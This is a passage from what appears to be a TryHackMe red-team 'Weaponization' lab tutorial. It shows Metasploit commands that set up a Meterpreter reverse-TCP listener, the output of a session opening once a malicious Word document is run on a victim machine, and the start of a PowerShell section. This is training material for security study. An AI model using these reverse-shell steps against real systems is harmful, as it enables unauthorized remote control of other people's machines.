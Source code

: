 *From the attacking machine, run the Metasploit framework and set the listener as follows:*

```shell-session
user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
```

*Once the malicious MS word document is opened on the victim machine, we should receive a reverse shell.*

```shell-session
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
[*] Sending stage (176195 bytes) to 10.10.215.43
[*] Meterpreter session 1 opened (10.50.159.15:443 -> 10.10.215.43:50209) at 2021-12-13 10:46:05 +0000
meterpreter >
```

# PowerShell - PSH

PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses. Check out the TryHackMe room, [Hacking with PowerShell for more information about PowerShell](https://tryhackme.com/room/powershell).

Red teamers rely on PowerShell in performing various activities, including  initial access, system enumerations, and many others. Let's start by creating a straightforward PowerShell script that prints "Welcome to the Weaponization Room!" as follows,

```powershell
Write-Output "Welcome to the Weaponization Room!"
```

Save the file as thm.ps1. With the Write-Output, we print the message "Welcome to the Weaponization Room!" to the command prompt. Now let's run it and see the result.

```shell-session
C:\Users\thm\Desktop>powershell -File thm.ps1
File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more
information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    + CategoryInfo          : SecurityError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess

C:\Users\thm\Desktop>
```
